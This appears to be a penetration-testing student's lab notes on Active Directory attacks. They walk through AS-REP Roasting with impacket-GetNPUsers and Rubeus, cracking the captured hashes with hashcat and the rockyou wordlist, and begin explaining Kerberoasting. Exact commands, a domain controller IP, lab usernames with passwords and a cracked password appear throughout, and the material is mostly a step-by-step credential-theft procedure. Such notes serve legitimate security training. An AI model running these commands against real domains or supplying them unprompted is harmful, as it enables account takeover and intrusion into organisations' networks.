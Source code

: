 Perform AS-REP Roasting on Linux
- ** impacket-GetNPUsers**
	- To perform AS-REP roasting
	- `impacket-GetNPUsers -dc-ip 192.168.200.70  -request -outputfile hashes.asreproast corp.com/pete`
		- password = Nexus123!
		- **-dc-ip** =  IP address of the domain controller
		- **-outputfile** = output file in which the AS-REP hash will be stored in Hashcat format
		- **-request** = request the TGT
		- **domain/user** = user authentification format
	-  Check the correct mode for the AS-REP hash in Hashcat
		-`hashcat --help | grep -i "Kerberos"`
		- output --> `18200 | Kerberos 5, etype 23, AS-REP`
	- Crack the hash
		-`sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
		- output --> Flowers1
			- If you get "Not enough allocatable device memory for this attack", shut down your Kali VM and add more RAM to it.

Perform AS-REP Roasting on Windows
- *Rubeus*
	- toolset for raw Kerberos interactions and abuses
	- Set up:
		-RDP -> CLIENT75 jeff HenchmanPutridBonbon11
	- Start:
		- `cd C:\Tools`
		- `.\Rubeus.exe asreproast /nowrap`
			- **asreproast** = pre-authenticated domain
			- **/nowrap** = no new lines
		- Copy hash to home dir and crack
			- `sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
-  Identify users with the enabled AD user account option *Do not require Kerberos preauthentication*
	- [Windows] PowerView
		- *Get-DomainUser*
			- **-PreauthNotRquired**
	- [Kali] *impacket-GetNPUsers*
		- without the **-request** and **-outputfile** options.
- Can use *GenericWrite* or *GenericAll* permissions to modify the User Account Control value of the user to not require Kerberos preauthentication.
	- Known as *Targeted AS-REP Roasting*

### Kerberoasting

*Kerberoasting*
- Concept:
	- When requesting the service ticket from the domain controller, no checks are performed to confirm whether the user has any permissions to access the service hosted by the SPN.
	- These checks are performed as a second step only when connecting to the service itself. This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller.
	- The service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account.
	